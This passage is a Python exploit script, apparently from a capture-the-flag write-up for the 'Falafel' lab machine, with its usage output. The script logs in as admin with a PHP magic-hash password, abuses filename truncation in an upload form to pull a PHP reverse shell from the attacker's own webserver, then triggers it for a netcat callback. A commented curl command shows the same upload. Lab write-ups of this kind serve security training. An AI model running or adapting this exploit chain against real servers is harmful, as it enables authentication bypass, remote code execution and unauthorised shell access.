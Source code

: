     # start webserver
    print("[*] Starting webserver thread from {} on port {}".format(web_dir, web_port))
    thread = Thread(target=start_server, daemon=True)
    thread.start()
    
    # Login
    print("[*] Getting logon.php with phpsession cookie")
    s = requests.session()
    s.get(falafel_url + "/login.php")
    print("[*] Logging in with admin / 240610708")
    s.post(falafel_url + "/login.php", data={"username": "admin", "password": "240610708"} )
    
    # upload php rev_shell
    # URL=$(python -c 'print "http://10.10.15.99:8081/" + "B"*232 + ".php.png"'); curl -i -s -k  -X $'POST'     -H $'Referer: http://10.10.10.73/upload.php' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Cookie: PHPSESSID=g9kp8du6ofpc7g8m5d81nt2c00'     --data-binary "url=$URL" $'http://10.10.10.73/upload.php' | grep -e "The name is too long" -e shorten -e "New name" -e CMD
    print("[*] Uploading reverse shell php")
    resp = s.post(falafel_url + "/upload.php", headers={"Referer": "http://10.10.10.73/upload.php"}, data={"url": "http://" + ip + ":" + str(web_port) + "/" + filename})
    
    # locate shell
    path = re.search(r"CMD: cd /var/www/html(/uploads/[\w\-]+);", resp.text).group(1)
    file_ = re.search(r"New name is (\w+\.php)\.", resp.text).group(1)
    
    # activate shell
    print("[*] Activating shell. Expect callback on {}:{}".format(ip, nc_port))
    try:
        s.get("{}{}/{}".format(falafel_url, path, file_), timeout=1)
    except requests.exceptions.ReadTimeout:
        pass
    
    print("[*] Cleaning up and exiting")
    os.remove(web_dir + "/" + filename)
    sys.exit(1)
    
    
    
    root@kali# ./get_falafel_shell.py -h
    usage: get_falafel_shell.py [-h] [--web-port WEB_PORT] [-n NC_PORT]
                                [--web-dir WEB_DIR] [--local-ip LOCAL_IP]
    
    optional arguments:
      -h, --help            show this help message and exit
      --web-port WEB_PORT, -w WEB_PORT
                            webserver port
      -n NC_PORT, --nc-port NC_PORT
                            nc port
      --web-dir WEB_DIR, -d WEB_DIR
                            location to serve files from
      --local-ip LOCAL_IP, -i LOCAL_IP
                            local ip
    